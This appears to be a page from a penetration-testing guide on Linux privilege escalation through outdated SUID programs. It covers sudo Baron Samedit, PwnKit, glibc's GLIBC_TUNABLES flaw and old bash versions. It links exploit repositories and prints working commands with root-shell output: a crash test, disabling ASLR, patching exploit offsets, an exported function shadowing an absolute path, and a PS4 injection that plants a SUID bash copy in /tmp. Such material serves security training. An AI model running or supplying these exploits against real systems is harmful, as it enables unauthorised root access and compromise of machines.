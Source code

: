```yaml
---
description: >-
  Some common services run with elevated privileges, and can be dangerous if set
  up incorrectly or are outdated
---
```


# Outdated Versions

## Default SUID binaries

There are some common programs that require the SUID bit to work, like sudo. There is a lot of research into finding vulnerabilities in these programs specifically for Privilege Escalation. You can look up the version of a program with a term like "exploit" or "CVE" to find known exploits for it. [GitHub ](https://github.com/)and [ExploitDB](https://www.exploit-db.com/) are is great resources where Proof of Concepts are often shared, so make sure to search there if you know the program is vulnerable.&#x20;

Here are a few easily exploitable vulnerabilities in common outdated programs:

### Sudo < 1.9.5p2 (CVE-2021-3156)

The `sudoedit` program has a Heap-Based Buffer Overflow vulnerability. For all the technical details see [this writeup](https://datafarm-cybersecurity.medium.com/exploit-writeup-for-cve-2021-3156-sudo-baron-samedit-7a9a4282cb31).&#x20;

A simple proof-of-concept script was quickly made in C that you likely need to compile on the target:

{% embed url="https://github.com/CptGibbon/CVE-2021-3156" %}
An exploit of Sudo Baron Samedit written in C
{% endembed %}

If compilers like `gcc` are not available on the target, you could try the Python version:

{% embed url="https://github.com/worawit/CVE-2021-3156" %}
A few versions of the Sudo Baron Samedit exploit written in Python
{% endembed %}

### PwnKit (CVE-2021-4034)

Polkit's `pkexec` program is another SUID binary. It had a vulnerability with the PATH variable allowing you to load an arbitrary shared library, and execute any code you want. For all the technical details see [this writeup](https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034).

A proof-of-concept was made in C that you need to compile and run on the target:

{% embed url="https://github.com/arthepsy/CVE-2021-4034" %}
An exploit of PwnKit written in C
{% endembed %}

If compilers like `gcc` are not available on the target, you could try the Python version:

{% embed url="https://github.com/joeammond/CVE-2021-4034" %}
An exploit of PwnKit written in Python
{% endembed %}

### glibc `ld.so` < 2.37-r7 (CVE-2023-4911)

A vulnerability in the glibc loader was found, which is used in almost all SUID binaries. It can be triggered via environment variables, specifically `GLIBC_TUNABLES`. A simple proof-of-concept was made to test if the current version is vulnerable, which uses any SUID binary like `su`:

{% code overflow="wrap" %}
```bash
env -i "GLIBC_TUNABLES=glibc.malloc.mxfast=glibc.malloc.mxfast=A" "Z=`printf '%08192x' 1`" /usr/bin/su --help
```
{% endcode %}

{% code title="Vulnerable output" %}
```
Segmentation fault
```
{% endcode %}

{% code title="Patched output" %}
```
Usage:
 su [options] [-] [<user> [<argument>...]]
...
```
{% endcode %}

If you find that it is vulnerable, you can exploit it using one of the many scripts that were made. A useful one is the one made by [@bl4sty](https://twitter.com/bl4sty) which has 2 modes depending on **ASLR**:

* **Disabled**: "Search offset" which will try offsets 128-1024 until a dummy payload triggers
* **Enabled**: "Exploit" which uses a static offset to exploit it in a real environment

{% embed url="https://haxx.in/files/gnu-acme.py" %}
Proof of Concept with offset finder to get a root shell
{% endembed %}

Finding this offset is important because not all environments have the same one. A few common ones are included in the `TARGETS` variable in the Python script above. For consistent success on arbitrary systems, you should first _recreate the target environment_ and disable ASLR:

<pre class="language-shell-session" data-title="Recreated environment"><code class="lang-shell-session"><strong>$ echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
</strong><strong>$ python3 gnu-acme.py
</strong>...
found working offset for ld.so '4f536ac1cd2e8806aed8556ea7795c47404de8a9' -> 561
found working offset for ld.so '4f536ac1cd2e8806aed8556ea7795c47404de8a9' -> 562
found working offset for ld.so '4f536ac1cd2e8806aed8556ea7795c47404de8a9' -> 563
</code></pre>

Then use any of these working offsets with ASLR enabled to get a shell in a few minutes:

{% code title="gnu-acme.py" %}
```diff
TARGETS = {
    "69c048078b6c51fa8744f3d7cff3b0d9369ffd53": 561,
...
    "956d98a11b839e3392fa1b367b1e3fdfc3e662f6": 322,
+   "4f536ac1cd2e8806aed8556ea7795c47404de8a9": 561,
}
```
{% endcode %}

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ python3 gnu-acme.py
</strong>...
[i] using stack addr 0x7ffe1010100c
...................................................................................
** ohh... looks like we got a shell? **
<strong># id
</strong>uid=0(root) gid=1001(user) groups=1001(user)
</code></pre>

## Old Bash Tricks

Bash is by far the most common shell, and has had a few updates to change certain features. In previous versions of bash, there were some tricks to exploit SUID binaries with functions and environment variables. To check the version of bash use:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ bash --version
</strong>GNU bash, version 4.1.5(1)-release (x86_64-pc-linux-gnu)
</code></pre>

### Bash < 4.2-048 (absolute path overwrite)

In these older bash versions, it was possible to define a function with the name of a full path to a program. This way, if you would specify the full path to that program, it would instead execute the function you defined with the same name. This makes it possible to overwrite absolute paths like `/usr/sbin/service` ran by SUID binaries, by defining a malicious function with the same name:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ function /usr/sbin/service { /bin/bash -p; }  # Define function to get a shell
</strong><strong>$ export -f /usr/sbin/service  # Export function
</strong><strong>$ ./vulnerable
</strong># id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
</code></pre>

### Bash < 4.4 (PS4 variable)

When bash is in debug mode, it has the `PS4` variable which provides a custom prompt when a command is executed by the program. But the variable can run arbitrary commands with the `$()` command substitution syntax. You can set bash in debug mode with `SHELLOPTS=xtrace`, and then just set the `PS4` variable. Getting a direct shell with `/bin/bash -p` has some weird output, so I recommend just copying /bin/bash to another location and setting the SUID bit on it, so you can later run it for your root shell:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/bash; chmod +xs /tmp/bash)' ./vulnerable
</strong><strong>$ /tmp/bash -p
</strong># id
uid=1000(user) gid=1000(user) euid=0(root) egid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
</code></pre>
